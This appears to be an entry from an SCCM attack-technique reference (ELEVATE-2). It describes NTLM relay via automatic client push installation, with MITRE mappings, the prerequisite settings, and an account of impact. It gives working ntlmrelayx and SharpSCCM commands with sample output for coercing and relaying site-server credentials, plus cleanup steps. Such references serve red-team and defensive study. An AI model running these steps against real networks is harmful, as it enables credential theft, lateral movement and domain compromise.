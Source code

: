 # ELEVATE-2
## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < 5 or not present, or = `5` and LmCompatibilityLevel >= 3 on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as Domain Admins for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its machine account. If SMB is used, TAKEOVER-1 and TAKEOVER-2 may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server.

## Defensive IDs


## Examples

It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

```
# impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
Impacket v0.11.0 - Copyright 2023 Fortra

[2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
[2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
[2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
[2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
[2024-02-26 15:49:50] [*] Running in relay mode to single host
[2024-02-26 15:49:50] [*] Setting up SMB Server
[2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
[2024-02-26 15:49:50] [*] Setting up WCF Server
[2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

[2024-02-26 15:49:50] [*] Servers started, waiting for connections
```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

```
SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

[+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
[+] Reusable Base64-encoded certificate:

    308209D2...020207D0

[+] Discovering local properties for client registration request
[+] Modifying client registration request properties:
      FQDN: <NTLMRELAYX_LISTENER_IP>
      NetBIOS name: <NTLMRELAYX_LISTENER_IP>
      Site code: <SITECODE>
[+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
[+] Received unique SMS client GUID for new device:

    GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

[+] Discovering local properties for DDR inventory report
[+] Modifying DDR and inventory report properties
[+] Discovered PlatformID: Microsoft Windows NT Server 10.0
[+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
[+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
[+] Completed execution in 00:00:16.1952455
```

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
```
[2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
[2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
```

Note: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having Full Administrator privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With Full Administrator access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the administration console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, Coercing NTLM Authentication from SCCM Servers, https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a
- Chris Thompson, SharpSCCM, https://github.com/Mayyhem/SharpSCCM